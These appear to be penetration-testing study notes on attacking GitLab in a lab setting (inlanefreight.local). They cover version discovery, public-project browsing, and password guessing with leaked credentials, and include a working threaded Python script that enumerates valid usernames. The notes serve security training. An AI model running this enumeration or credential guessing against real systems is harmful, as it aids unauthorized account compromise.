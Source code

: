 ### Discovery
- `/help` has the version number, but you must be logged in to access that page
- [Low risk exploit](https://www.exploit-db.com/exploits/49821)

### Enumeration
- There's not much we can do against GitLab without knowing the version number or being logged in.
- The first thing we should try is browsing to `/explore` and see if there are any public projects.
- Once we are done digging through what is available externally, we should check and see if we can register an account and access additional projects
- Use the registration form to enumerate valid users. If we can make a list of valid users, we could attempt to guess weak passwords or possibly re-use credentials that we find from a password dump using a tool such as `Dehashed` as seen in the osTicket section

## Attacking GitLab

#### Username Enumeration
`Bash`:
```Shell
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```

`Python`:
```Python
python3 git_user_enum.py
```

#### Python Username Enumeration Script
```Python
#!/usr/bin/python

import threading
import requests
import time

URL = 'http://gitlab.inlanefreight.local:8081/'
valid_users = []

def read_users(file_name):
    with open(file_name) as f:
        users = f.read().splitlines()
    return users

def check(user):
    global valid_users
    url = f'{URL}{user}'
    x = requests.head(url)
    if x.status_code == 200:
        valid_users.append(user)
        print (f'\n\nFound...........{user}\n\n')
    else:
        if x.status_code != 302:
            print (f'\n\nError...........{user}\n\n')
    return 0

users = read_users('/usr/share/SecLists/Usernames/cirt-default-usernames.txt')
for num, user in enumerate(users):
    print(f'checking.... {user:20s}', end='\r')
    while threading.active_count() > 50:
        time.sleep(1)
    exec(f"""th{num} = threading.Thread(target=check, args=(user,))""")
    exec(f'th{num}.start()')
print (valid_users)
```
